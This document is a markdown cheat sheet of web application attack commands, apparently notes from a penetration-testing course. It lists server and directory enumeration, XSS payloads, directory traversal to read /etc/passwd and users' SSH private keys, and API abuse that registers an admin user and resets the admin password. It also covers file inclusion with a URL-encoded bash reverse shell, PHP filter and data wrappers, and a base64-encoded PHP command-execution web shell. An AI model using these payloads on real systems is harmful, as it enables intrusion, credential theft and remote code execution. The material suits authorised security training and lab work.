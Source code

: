 # Web App Attacks
## Finding Web Servers
### Enumerate Web Servers
```bash
nmap -p80 --script=http-enum -sV 10.10.10.10
```

## Directory Busting
### GoBuster
```bash
gobuster dir -u 10.10.10.10 -w /usr/share/wordlists/dirb/common.txt
```

## XSS
### Test for XXS
```javascript
(<script>alert(42)</script>)
```

## Directory Traversal
```bash
../../../../../etc/passwd
```
### Character Encoding
```bash
curl http://10.10.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## API Enumeration and abuse
### Create a pattern file
```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
```
### Enumerate APIs
```cmd
gobuster dir -u http://10.18.10.10:80 -w
/usr/share/wordlists/dirb/big.txt -p pattern
```
### Inspect API
```cmd
curl -i https://10.10.10.10:80/users/v1
```

### Interact with API
```txt
curl -d
'{"password":"lab","username":"pwned","email":"pwned@otarget.com","admin":"True"}' -H
'Content-Type: application/json' http://10.10.10.10:80/users/v1/register
```
```txt
curl -X 'PUT' \
'http://10.10.10.10:5002/users/v1/admin/password' \
-H 'Content-Type: application/json' \
-H 'Authorization: OAuth
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic
3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
-d '{"password": "pwned"}'
```

## Cross-Site Scripting
### Identify XSS - Common Characters
```txt
< > ' " { } ;
```
### Verify XSS
```js
<script>alert(42)</script>
```

## Directory Traversal
### identify Directory Traversal
```txt
index.php?page=../../../../../../../etc/passwd
```
### Stealing SSH Key
```txt
index.php?page=../../../../../../../../../home/<user>/.ssh/id_rsa
```
May be prudent to encode characters.
%2e%2e/

## File Inclusion
### Check for file inclusion
```txt
index.php?page=../../../../../../var/log/&cmd=ls%20-la
```
### Bash Reverse shell one liner
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.10.10%2F31337%200%3E%261%22
```
### PHP Wrappers
#### PHP://filter/resource
```bash
curl
http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php
```
#### PHP://filter/convertto.base64-encode/resource
```bash
curl
http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
echo "<base64>" | base64 -d
```
#### data://text//plain,
```bash
curl index.php?page=data://text/plain,<?php%20echo%20sy
stem('ls');?>"
```
#### data://text/plain;basu64,
```bash
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
```
```bash
curl
"http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,<base64>&cmd=ls"
```